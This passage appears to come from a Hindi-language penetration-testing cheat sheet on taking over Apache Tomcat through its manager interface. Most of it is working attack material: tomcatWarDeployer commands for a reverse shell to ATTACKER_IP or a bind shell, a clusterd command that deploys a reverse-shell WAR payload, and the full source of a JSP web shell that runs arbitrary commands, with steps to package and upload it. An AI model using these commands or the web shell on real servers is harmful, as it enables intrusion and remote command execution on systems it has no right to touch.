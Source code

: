 कुछ परिदृश्यों में यह काम नहीं करता (उदाहरण के लिए पुराने संस्करणों में) 

#### डाउनलोड
```bash
git clone https://github.com/mgeeky/tomcatWarDeployer.git
```
#### रिवर्स शेल
```bash
./tomcatWarDeployer.py -U <username> -P <password> -H <ATTACKER_IP> -p <ATTACKER_PORT> <VICTIM_IP>:<VICTIM_PORT>/manager/html/
```
#### बाइंड शेल
```bash
./tomcatWarDeployer.py -U <username> -P <password> -p <bind_port> <victim_IP>:<victim_PORT>/manager/html/
```
### [Culsterd](https://github.com/hatRiot/clusterd) का उपयोग करना
```bash
clusterd.py -i 192.168.1.105 -a tomcat -v 5.5 --gen-payload 192.168.1.6:4444 --deploy shell.war --invoke --rand-payload -o windows
```
### Manual method - Web shell

**index.jsp** को इस [सामग्री](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp) के साथ बनाएं:
```java
<FORM METHOD=GET ACTION='index.jsp'>
<INPUT name='cmd' type=text>
<INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
String s = null;
try {
Process p = Runtime.getRuntime().exec(cmd,null,null);
BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
while((s = sI.readLine()) != null) { output += s+"</br>"; }
}  catch(IOException e) {   e.printStackTrace();   }
}
%>
<pre><%=output %></pre>
```

```bash
mkdir webshell
cp index.jsp webshell
cd webshell
jar -cvf ../webshell.war *
webshell.war is created
# Upload it
```
आप इसे भी स्थापित कर सकते हैं (अपलोड, डाउनलोड और कमांड निष्पादन की अनुमति देता है): [http://vonloesch.de/filebrowser.html](http://vonloesch.de/filebrowser.html)
